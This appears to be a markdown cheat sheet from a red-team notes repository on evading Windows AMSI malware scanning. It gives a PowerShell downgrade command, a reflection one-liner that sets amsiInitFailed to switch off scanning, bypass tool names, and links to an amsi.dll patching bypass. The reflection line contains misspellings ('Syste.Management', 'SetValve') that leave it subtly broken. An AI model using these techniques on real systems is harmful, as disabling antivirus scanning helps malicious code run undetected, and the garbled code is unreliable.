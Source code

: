 # Anti-Malware Scanning Interface (AMSI) Evasion (Runtime Detection Evasion)

## Powershell Downgrade

#### 

    powershell -Version 2

## Powershell Reflection

#### 

    [Ref].Assembly.GetType('Syste.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValve($null,$true)

## Automation

### Tools: amsi.fail, AmsiTrigger

## Patching amsi.dll

### See a separate file in this repo.

### Resource: https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/main/AmsiBypass.cs

### Resource to practice AMSI bypass obfuscation techniques: https://github.com/RythmStick/AMSITrigger
